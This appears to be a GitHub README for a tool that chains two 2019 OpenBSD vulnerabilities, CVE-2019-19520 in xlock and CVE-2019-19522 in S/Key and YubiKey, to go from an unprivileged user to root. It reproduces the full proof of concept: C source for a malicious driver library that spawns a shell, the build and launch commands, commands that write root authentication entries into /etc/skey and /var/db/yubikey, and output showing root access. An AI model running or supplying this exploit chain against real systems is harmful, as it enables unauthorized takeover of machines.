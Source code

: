 # Openbsd-Privilege-Escalation
A Script that automates the process of escalating privileges on openbsd system (CVE-2019-19520)  by exploiting the xlock binary and againing it's sgid and escalating to the root user by (CVE-2019-19522) exploiting the privileges of auth group and adding keys to the Skey or Yubikey


The C code is pretty much a copy of the original poc from: https://www.openwall.com/lists/oss-security/2019/12/04/5






CVE-2019-19522: Local privilege escalation via S/Key and YubiKey
==============================================================================

On OpenBSD, /usr/X11R6/bin/xlock is installed by default and is
set-group-ID "auth", not set-user-ID; the following check is therefore
incomplete and should use issetugid() instead:

------------------------------------------------------------------------------
101 _X_HIDDEN void *
102 driOpenDriver(const char *driverName)
103 {
...
113    if (geteuid() == getuid()) {
114       /* don't allow setuid apps to use LIBGL_DRIVERS_PATH */
115       libPaths = getenv("LIBGL_DRIVERS_PATH");


A local attacker can exploit this vulnerability and dlopen() their own
driver to obtain the privileges of the group "auth":

$ id
uid=32767(nobody) gid=32767(nobody) groups=32767(nobody)

$ cd /tmp

$ cat > swrast_dri.c << "EOF"
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF

$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c

$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[1] 2706

$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66

$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)


Now we have obtained the group - auth's privileges, we can now exploit the privileges by adding our own root keys to Skey or Yubikey


CVE-2019-19522: Local privilege escalation via S/Key and YubiKey
==============================================================================

If the S/Key or YubiKey authentication type is enabled (they are both
installed by default but disabled), then a local attacker can exploit
the privileges of the group "auth" to obtain the full privileges of the
user "root" (because login_skey and login_yubikey do not verify that the
files in /etc/skey and /var/db/yubikey belong to the correct user, and
these directories are both writable by the group "auth").

(Note: to obtain the privileges of the group "auth", a local attacker
can first exploit CVE-2019-19520 in xlock.)

If S/Key is enabled (via skeyinit -E), a local attacker with "auth"
privileges can add an S/Key entry (a file in /etc/skey) for the user
"root" (if this file already exists, the attacker cannot simply remove
or rename it, because /etc/skey is sticky; a simple workaround exists,
and is left as an exercise for the interested reader):


$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)

$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root

$ chmod 0600 /etc/skey/root

$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password: EGG LARD GROW HOG DRAG LAIN

#id
uid=0(root) gid=0(wheel) ...


If YubiKey is enabled (via login.conf), a local attacker with "auth"
privileges can add a YubiKey entry (two files in /var/db/yubikey) for
the user "root" (if these files already exist, the attacker can simply
remove or rename them, because /var/db/yubikey is not sticky):


$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)

$ echo 32d32ddfb7d5 > /var/db/yubikey/root.uid

$ echo 554d5eedfd75fb96cc74d52609505216 > /var/db/yubikey/root.key

$ env -i TERM=vt220 su -l -a yubikey
Password: krkhgtuhdnjclrikikklulkldlutreul

#id
uid=0(root) gid=0(wheel) ...
